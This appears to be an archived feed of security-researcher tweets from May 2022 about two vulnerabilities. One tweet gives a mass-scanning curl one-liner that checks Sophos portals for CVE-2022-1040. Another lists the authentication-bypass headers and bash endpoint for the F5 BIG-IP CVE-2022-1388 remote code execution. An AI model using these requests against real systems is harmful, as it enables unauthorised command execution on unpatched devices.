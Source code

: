 
# momika233
**https://twitter.com/momika233/status/1523684797474045952 _at 2022-05-09, 15:22:19_**
<blockquote>
CVE-2022-1040_checker

cat sophos_servers | while read host do; do curl --connect-timeout 10 -ks -H "X-Requested-With: XMLHttpRequest" -X POST "https://$host/userportal/Controller?mode=8700&amp;operation=1&amp;datagrid=179&amp;json=\{"👽":"TEST"\}" | grep -q 'Session Expired'
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>162</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1523638101796564993 _at 2022-05-09, 12:16:45_**
<blockquote>
The CVE-2022-1388 vulnerability is surely an honest mistake by an F5 developer, right?
Right??
</blockquote>

<table><tr>
<td>Quotes: <code>20</code></td>
<td>Replies: <code>17</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>388</code></td>
</tr></table>

---

# jas502n
**https://twitter.com/jas502n/status/1523611433938059265 _at 2022-05-09, 10:30:47_**
<blockquote>
#CVE-2022-1388 F5's BIG-IP Unauth RCE

Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46
X-F5-Auth-Token: anything

https://x.x.x.x:443/mgmt/tm/util/bash https://t.co/cPqdwjT11f
</blockquote>

<table><tr>